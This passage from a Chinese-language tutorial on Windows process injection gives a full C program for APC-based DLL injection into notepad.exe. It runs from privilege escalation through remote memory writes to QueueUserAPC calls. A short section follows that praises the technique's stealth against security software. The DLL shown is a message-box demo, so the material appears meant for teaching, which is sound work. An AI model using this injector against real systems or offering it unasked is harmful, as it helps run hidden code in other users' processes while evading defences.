// 编译命令: gcc -o ApcInjector.exe ApcInjector.c
// 确保 injector.h 在同级目录
int main() {
    const wchar_t* targetProcessName = L"notepad.exe";
    wchar_t dllPath[MAX_PATH];
    // 使用 GetFullPathNameW
    if (GetFullPathNameW(L"MessageboxDll.dll", MAX_PATH, dllPath, NULL) == 0) {
        wprintf(L"Failed to get full path of DLL. Error: %d\n", GetLastError());
        return 1;
    }
    // =======================================
    // 1. 获取目标进程 PID
    DWORD pid = GetProcessIdByName(targetProcessName);
    if (pid == 0) {
        printf("[-] Target process not found: %ls\n", targetProcessName);
        return 1;
    }
    printf("[+] Found PID: %lu\n", pid);
    // 2. 尝试提权 (如果是注入系统进程则必须，普通进程可选)
    if (EnableDebugPrivilege()) {
        printf("[+] SeDebugPrivilege enabled.\n");
    }
    // 3. 打开目标进程
    // 需要 PROCESS_ALL_ACCESS 或至少 VM_WRITE/VM_OPERATION 权限 [cite: 29]
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        printf("[-] OpenProcess failed. Error: %lu\n", GetLastError());
        return 1;
    }
    // 4. 在目标进程分配内存
    size_t pathSize = (wcslen(dllPath) + 1) * sizeof(wchar_t);
    LPVOID pRemoteMem = VirtualAllocEx(hProcess, NULL, pathSize, MEM_COMMIT, PAGE_READWRITE); // [cite: 30]
    if (!pRemoteMem) {
        printf("[-] VirtualAllocEx failed.\n");
        CloseHandle(hProcess);
        return 1;
    }
    // 5. 写入 DLL 路径
    if (!WriteProcessMemory(hProcess, pRemoteMem, (LPVOID)dllPath, pathSize, NULL)) { // [cite: 31]
        printf("[-] WriteProcessMemory failed.\n");
        VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }
    printf("[+] DLL path written to remote memory.\n");
    // 6. 获取 LoadLibraryW 地址
    // Kernel32.dll 在所有进程中的基址通常相同，所以直接取本地地址即可 [cite: 32]
    PTHREAD_START_ROUTINE pLoadLibrary = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleW(L"kernel32.dll"), "LoadLibraryW");
    if (!pLoadLibrary) {
        printf("[-] Failed to get LoadLibraryW address.\n");
        return 1;
    }
    // 7. 获取目标进程的所有线程
    DWORD* pThreadIds = NULL;
    DWORD threadCount = 0;
    if (!GetProcessThreadList(pid, &pThreadIds, &threadCount)) { // 使用 injector.h 中的函数
        printf("[-] Failed to enumerate threads.\n");
        return 1;
    }
    printf("[*] Enumerated %lu threads in target process.\n", threadCount);
    // 8. 遍历线程并插入 APC
    int successCount = 0;
    for (DWORD i = 0; i < threadCount; i++) {
        // 打开线程，必须拥有 THREAD_SET_CONTEXT 访问权限才能通过 QueueUserAPC 注入 
        HANDLE hThread = OpenThread(THREAD_SET_CONTEXT | THREAD_QUERY_INFORMATION, FALSE, pThreadIds[i]); // [cite: 36]
        if (hThread) {
            // 核心函数：QueueUserAPC 
            // 参数1: 要执行的函数 (LoadLibraryW)
            // 参数2: 目标线程句柄
            // 参数3: 传递给函数的参数 (远程内存中的 DLL 路径)
            if (QueueUserAPC((PAPCFUNC)pLoadLibrary, hThread, (ULONG_PTR)pRemoteMem)) { // [cite: 37]
                successCount++;
                // printf("[+] APC queued for Thread ID: %lu\n", pThreadIds[i]);
            }
            CloseHandle(hThread);
        }
    }
    printf("[+] Successfully queued APC to %d threads.\n", successCount);
    printf("[!] Waiting for target threads to enter 'Alertable State' (e.g. SleepEx) to trigger execution...\n");
    // 清理
    if (pThreadIds) VirtualFree(pThreadIds, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    // 注意：不要过早 VirtualFreeEx pRemoteMem，因为目标线程可能还没执行 APC。
    // 在实际恶意软件中，通常就不释放了，或者等待很长时间。
    return 0;
}
```

### 6.4 攻击效果

* **高隐蔽性 (Stealth)** ： **不创建新线程** 。大多数安全软件会监控 `CreateRemoteThread`，但对 `QueueUserAPC` 的监控相对较少。代码复用目标进程现有的线程执行。
* **局限性** ：依赖于目标进程的行为（必须调用 `SleepEx` 等函数），如果目标线程太忙或不进入可警醒状态，注入可能永远不会触发。


